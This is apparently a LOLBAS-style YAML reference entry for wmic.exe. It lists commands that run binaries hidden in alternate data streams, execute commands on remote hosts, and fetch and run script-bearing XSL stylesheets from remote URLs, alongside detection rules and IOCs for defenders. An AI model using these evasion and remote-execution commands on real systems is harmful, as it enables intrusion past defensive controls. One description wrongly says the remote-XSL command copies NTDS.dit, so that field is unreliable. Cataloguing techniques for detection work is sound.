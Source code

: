 ```yaml
---
Name: Wmic.exe
Description: The WMI command-line (WMIC) utility provides a command-line interface for WMI
Author: Oddvar Moe
Created: 2018-05-25
Commands:
  - Command: wmic.exe process call create "{PATH_ABSOLUTE}:program.exe"
    Description: Execute a .EXE file stored as an Alternate Data Stream (ADS)
    Usecase: Execute binary file hidden in Alternate data streams to evade defensive counter measures
    Category: ADS
    Privileges: User
    MitreID: T1564.004
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
    Tags:
      - Execute: EXE
  - Command: wmic.exe process call create "{CMD}"
    Description: Execute calc from wmic
    Usecase: Execute binary from wmic to evade defensive counter measures
    Category: Execute
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
    Tags:
      - Execute: CMD
  - Command: wmic.exe /node:"192.168.0.1" process call create "{CMD}"
    Description: Execute evil.exe on the remote system.
    Usecase: Execute binary on a remote system
    Category: Execute
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
    Tags:
      - Execute: CMD
      - Execute: Remote
  - Command: wmic.exe process get brief /format:"{REMOTEURL:.xsl}"
    Description: Create a volume shadow copy of NTDS.dit that can be copied.
    Usecase: Execute binary on remote system
    Category: Execute
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
    Tags:
      - Execute: XSL
      - Execute: Remote
  - Command: wmic.exe process get brief /format:"{PATH_SMB:.xsl}"
    Description: Executes JScript or VBScript embedded in the target remote XSL stylsheet.
    Usecase: Execute script from remote system
    Category: Execute
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
    Tags:
      - Execute: XSL
      - Execute: Remote
  - Command: wmic.exe datafile where "Name='C:\\windows\\system32\\calc.exe'" call Copy "C:\\users\\public\\calc.exe"
    Description: Copy file from source to destination.
    Usecase: Copy file.
    Category: Copy
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
Full_Path:
  - Path: C:\Windows\System32\wbem\wmic.exe
  - Path: C:\Windows\SysWOW64\wbem\wmic.exe
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/683b63f8184b93c9564c4310d10c571cbe367e1e/rules/windows/image_load/image_load_wmic_remote_xsl_scripting_dlls.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/62d4fd26b05f4d81973e7c8e80d7c1a0c6a29d0e/rules/windows/process_creation/proc_creation_win_wmic_xsl_script_processing.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/683b63f8184b93c9564c4310d10c571cbe367e1e/rules/windows/process_creation/proc_creation_win_wmic_squiblytwo_bypass.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/683b63f8184b93c9564c4310d10c571cbe367e1e/rules/windows/process_creation/proc_creation_win_wmic_eventconsumer_creation.yml
  - Elastic: https://github.com/elastic/detection-rules/blob/414d32027632a49fb239abb8fbbb55d3fa8dd861/rules/windows/defense_evasion_suspicious_wmi_script.toml
  - Elastic: https://github.com/elastic/detection-rules/blob/61afb1c1c0c3f50637b1bb194f3e6fb09f476e50/rules/windows/persistence_via_windows_management_instrumentation_event_subscription.toml
  - Elastic: https://github.com/elastic/detection-rules/blob/82ec6ac1eeb62a1383792719a1943b551264ed16/rules/windows/defense_evasion_suspicious_managedcode_host_process.toml
  - Splunk: https://github.com/splunk/security_content/blob/961a81d4a5cb5c5febec4894d6d812497171a85c/detections/endpoint/xsl_script_execution_with_wmic.yml
  - Splunk: https://github.com/splunk/security_content/blob/3f77e24974239fcb7a339080a1a483e6bad84a82/detections/endpoint/remote_wmi_command_attempt.yml
  - Splunk: https://github.com/splunk/security_content/blob/3f77e24974239fcb7a339080a1a483e6bad84a82/detections/endpoint/remote_process_instantiation_via_wmi.yml
  - Splunk: https://github.com/splunk/security_content/blob/08ed88bd88259c03c771c30170d2934ed0a8f878/detections/endpoint/process_execution_via_wmi.yml
  - BlockRule: https://docs.microsoft.com/en-us/windows/security/threat-protection/windows-defender-application-control/microsoft-recommended-block-rules
  - IOC: Wmic retrieving scripts from remote system/Internet location
  - IOC: DotNet CLR libraries loaded into wmic.exe
  - IOC: DotNet CLR Usage Log - wmic.exe.log
  - IOC: wmiprvse.exe writing files
Resources:
  - Link: https://stackoverflow.com/questions/24658745/wmic-how-to-use-process-call-create-with-a-specific-working-directory
  - Link: https://subt0x11.blogspot.no/2018/04/wmicexe-whitelisting-bypass-hacking.html
  - Link: https://twitter.com/subTee/status/986234811944648707
Acknowledgement:
  - Person: Casey Smith
    Handle: '@subtee'
  - Person: Avihay Eldad
    Handle: '@AvihayEldad'
---
```

